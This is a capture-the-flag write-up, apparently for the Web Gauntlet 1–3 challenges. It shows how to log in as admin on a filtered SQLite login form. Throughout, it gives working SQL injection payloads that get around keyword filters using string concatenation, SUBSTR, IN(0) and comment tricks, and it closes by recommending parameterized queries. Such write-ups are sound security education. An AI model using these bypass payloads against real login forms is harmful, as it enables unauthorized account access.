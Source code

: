 # Web Gauntlet (1-3)

So this time we have a login form, we want to login as `admin` without knowing the password.

And it has a filter - your input cannot contain these words.

Example for Web Gauntlet 1 's Round 5 filter:

`Round5: or and = like > < -- union admin`

Round1 only contains `or` so we need to learn more tricks to by pass it.

All the filters:

```text
Round1: or
Round2: or and like = --
# RIP, no more --, luckily we still have /* in SQLite...
Round3: or and = like > < --
# From source code it bans spaces are well...
Round4: or and = like > < -- admin
Round5: or and = like > < -- union admin
```

The SQL statement

```SQL
SELECT * FROM users WHERE username='(user name)' AND password='(password)'
```

My input as username to pass all rounds: `adm'||'in'/*`

## The very hard mode

Try to increase the difficult (or follow the author's original intent) by adding these constraints to myself.

Round 2: No like, = , --, ; , and /**/ too (Totally no comment, no ; to skip statement)
And try to use the newly banned syntax from Round 3: > <

Round 3-4: Use union

Round 5: No /* (really do it the hard way)

### Solution

Round 2: username = `admin`, password = `bocchi'<>'`

SQL statement:

```SQL
SELECT * FROM users WHERE username='admin' AND password='bocchi'<>''

-- <> is not equal for string, we compare empty string != some string
```

Round 3: username = `admin`, password = `'IN(0)||'`
Round 4-5: username = `ad'||'min`, same password as above

SQL statement:

```SQL
-- password='whatevervalue' is 0
SELECT * FROM users WHERE username='admin' AND password=''IN(0)||''

-- don't know why False doesn't work in CTF but works in the online SQLite server I found
SELECT * FROM users WHERE username='admin' AND password=''IN(False)||''

```

The trick is to concat an empty string to consume the last `'` and make the password part true.

This works for all Round 3-5 and Web Gauntlet 2,3. (Of course, the admin needs to be concat'ed)

If `UNION` needs to be used, I think `/**/` cannot be disabled since there must be spaces in UNION statements...

## Web Gauntlet 2,3

Same old SQL statement as 1.

Filter this time: `or and true false union like = > < ; -- /* */ admin (but space is allowed)`

### My solution for 2

Original SQL statement

```SQL
SELECT username, password FROM users WHERE username='(user name)' AND password='(password)'

-- we have to add the user name and password. The quotes cannot be deleted
```

The statement after injection

```SQL
SELECT username, password FROM users WHERE username='ad'||SUBSTR('min'||' AND password=',1,3)||''
```

username = `ad'||SUBSTR('min'||`
pw = `,1,3)||'`

This solution avoids the filter of `admin`. Then remove the `AND` part by turning the it to part of the string. This is the same as `'ad'||'min'||'(nothing)'`

### Solution for 3

This time they wants less than 25 letters in both username and password ... I have to save some spaces by using the 'a' in p'a'ssword provided from the statement. ('d' works too)

```SQL
SELECT username, password FROM users WHERE username=''||SUBSTR(' AND password=',7,1)||'dmin'  -- use the a from p'a'ssword

SELECT username, password FROM users WHERE username='ad'||SUBSTR(' AND password=',0,0)||'min' -- Skip all the password statement with SUBSTR('str',0,0). This seems better, not dependent on the content of statement
```

This works: (use the a in statement)
username = `'||SUBSTR(`
pw = `,7,1)||'dmin`

This works too:
username = `ad'||SUBSTR(`
pw = `,0,0)||'min`

## Some other ways to solve

I heard that adding NULL bytes to the query works too as the lower level string processor will skip everything after reading NULL byte (0x00). (Nice good-old C string)

## Lesson learnt

Don't try to manually filter for SQL injection - use parametized input instead.

I suppose if injection works, we probably don't need to do all these hard ways to by-pass these guards...right?

Injection means the code allows users to run arbitrary SQL statements by coding all those `+` to join strings or string formatting like `"SELECT user from ... {} ...".format(user_name, password)`
